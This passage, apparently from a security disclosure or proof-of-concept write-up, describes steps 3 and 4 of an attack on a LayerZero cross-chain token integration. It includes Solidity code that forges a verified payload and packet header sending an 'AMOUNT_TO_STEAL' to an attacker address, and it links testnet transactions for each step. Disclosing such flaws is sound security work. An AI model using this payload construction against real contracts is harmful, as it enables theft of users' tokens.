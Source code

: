 The attacker calls `verify()` on the receiving library with the payload they want to execute. This will verify the payload. If the integrating contract is an OFT (a wrapper contract around ERC20 that integrates LayerZero crosschain flow), the payload is just the receiving address and the amount scaled by the shared decimals. To complete the payload, a global unique identifier (guid) is added at the beginning, this number can be random. The payload is hashed and submitted.

Additionally, a `_packetHeader` is supplied which specifies the source and destination contract and chain id of the message path, the nonce of the message, and the packet version.

```solidity
// payload hash
bytes memory _message = abi.encodePacked(
    bytes32(uint256(uint160(attacker))), // address padded to 32 bytes
    uint64(AMOUNT_TO_STEAL) // amount in shared decimals
);

bytes32 _guid = bytes32(uint256(69)); // guid is a global unique identifier
bytes memory payload = abi.encodePacked(_guid, _message);
bytes32 _payloadHash = keccak256(payload);
uint64 nonce = 3; // we did one incoming tx on mainnet from arbitrum until now, (0 if not initialized, 1 one tx)

IReceiveUln302 uln = IReceiveUln302(ulnAddress);

// packetversion: 1 byte
// nonce: 8 bytes
// srcEid: 4 bytes
// sender: 32 bytes
// dstEid: 4 bytes
// receiver: 32 bytes
// total: 81 bytes
bytes memory _packetHeader = abi.encodePacked(packetVersion, nonce, srcEid, sender, dstEid, receiver);
```

The `EndpointV2` contract will later check if this payload has been _verified_ by the required verifiers (what we just did).

Reference transaction:

[0x537f887bf58eaa4975f42cb96de5825c4af0898cea0e29ac723133328f3cb2a3](https://sepolia.etherscan.io/tx/0x537f887bf58eaa4975f42cb96de5825c4af0898cea0e29ac723133328f3cb2a3)

## Step 4

The attacker calls `commitVerification` on the receiving library with the same payload hash and packet header as with the verify call. This will commit the verification to the destination chain. That means the payload hash is stored inside the `EndpointV2` contract.

This call will revert if the payload hash or packet header do not match the verify call and if the required verifiers have not verified the payload, as we just in Step 3.

Reference transaction:

[0xc2bae285c1232ec8329343379857c191c8c701c95278942652680e500db067b9](https://sepolia.etherscan.io/tx/0xc2bae285c1232ec8329343379857c191c8c701c95278942652680e500db067b9)
